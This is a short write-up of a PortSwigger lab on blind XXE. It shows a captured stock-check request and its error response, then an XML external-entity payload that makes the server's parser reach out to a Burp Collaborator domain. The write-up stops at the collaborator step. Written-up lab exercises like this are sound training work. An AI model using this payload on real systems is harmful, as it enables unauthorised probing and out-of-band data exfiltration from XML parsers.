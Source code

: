 ```yaml
---
title: Blind XXE with out-of-band interaction
description: PortSwigger XXE Lab
---
```

https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

## Writeup
Check stock request
```http
POST /product/stock HTTP/2
Host: 0a3500c90401471bd1fc72e3008500f1.web-security-academy.net
Cookie: session=V0EKdKHguXIHlllnhcIDXtWlD2CkWAoV
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3500c90401471bd1fc72e3008500f1.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 112
Origin: https://0a3500c90401471bd1fc72e3008500f1.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>banana</productId><storeId>1</storeId></stockCheck>
```

XML value is not reflected in the response.
```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Invalid product ID"
```

Payload for out-of-band xxe

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://gau2yglkb5cd6y4jqxekmb9v1m7ev4jt.oastify.com"> ]>
<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```

Request to collaborator